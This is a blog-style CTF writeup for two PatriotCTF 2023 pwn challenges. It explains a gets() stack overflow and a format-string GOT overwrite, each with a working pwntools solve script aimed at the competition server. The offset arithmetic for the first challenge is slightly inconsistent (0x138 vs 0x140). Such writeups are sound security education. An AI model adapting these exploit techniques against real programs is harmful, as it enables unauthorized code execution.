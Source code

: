 ```yaml
---

title: "PatriotCTF 2023 Writeup"
permalink: "/pctf-2023-writeups"
---
```


Welcome to my first Writeup!

## PWN
---
<br/>
<!-- <br/> -->


# Guessing Game [100 PTS]
Lets decompile using Ghidra and rename some variables:

![decompilation of binary](/assets/pctf2023/pwn/guessinggame/decompiled.png)

We can see that there is a vulnerable call to `gets` in line 13. We can also see in line 21 that the binary checks if `target` is not zero. If it isn't zero, we get the flag. 
<br/>
<br/>
`gets` will not check how long the user's input is and will store whatever input is given to it, on the [stack](https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64/).  Since the `target` variable is on the stack as well, we can overwrite the variable and get the flag!
<br/>
<br/>
To find the number of characters we need to overwrite the `target` variable, we can look at the stack layout provided by Ghidra. To show this layout just click on any of the variables' declarations.

![stack layout of binary](/assets/pctf2023/pwn/guessinggame/stack_layout.png)
<br/>
<br/>

From this we can see that our input is stored at `$rbp-0x138` and `target` is stored at `$rbp-0xc`.
<br/>
<br/>
Subtracting 0xc from 0x140 gives us 308, which is how many bytes we need to write in order to overwrite the `target` variable. 
<br/>
<br/>

> ``NOTE:`` The `outputFlag()` function tries to open a file called flag.txt, so when testing locally, make sure to put a fake flag in the same directory as the binary.

Here is the final solve script:
<br/>
```python
from pwn import *
context.binary = binary = ELF('./guessinggame')

#p = process()
p = remote('chal.pctf.competitivecyber.club', 9999)
payload = b'a'*308

p.sendline(payload)
p.interactive()
```

<br/>
<br/>

# Printshop [384 PTS]
Again, lets decompile this binary in Ghidra. 

![Printshop binary decompiled](/assets/pctf2023/pwn/printshop/decompiled.png)

<br/>

We can see that there is a format string vulnerability on line 14, since we are taking the user's input and printing it without any format specifiers. This means that the user can supply their own format specifiers like `%n` which can be used to write to memory addresses. 
<br/>

Also notice that instead of returning, the program calls `exit`. I also saw that there is a win function which is what our target is. 
<br/>
![win function](/assets/pctf2023/pwn/printshop/winfunc.png)
<br/>

We can do a GOT overwrite so that `exit` points to `win`. This means that when the program calls `exit`, it will actually call `win`. For more information on format string vulnerabilities, I recommend going through [pwn.college's format string exploits module](https://pwn.college/cse494-s2023/format-string-exploits). 

Before we do the GOT overwrite, we need to make sure that the GOT has write permissions. To check this, we can use `checksec`, a command line utility to check security protections on a binary. Running `checksec printshop` outputs:
<br/>

![checksec output](/assets/pctf2023/pwn/printshop/checksec.png)

Since there is `Partial RELRO`, we can overwrite the GOT.

<br/>
To perform this exploit, we can use pwntools' `fmtstr` class. 
<br/>

Here is the final solve script:
<br/>
```python
from pwn import *
context.binary = binary = ELF('./printshop')

def exec_func(payload): # this function is used so that pwntools can find the offset of our input buffer and other things like padding
        with remote('chal.pctf.competitivecyber.club', 7997) as p:
                p.sendline(payload)
                p.recvuntil(b'buisness!')
                p.recvline()
                p.recvline()
                out = p.recvline()
                log.info(out)
                return out

#p = process()
p = remote('chal.pctf.competitivecyber.club', 7997)
fmtstr = FmtStr(exec_func)
payload = b'a'*fmtstr.padlen + fmtstr_payload(fmtstr.offset, {binary.got.exit: binary.symbols.win})

p.sendline(payload)
p.interactive()

```

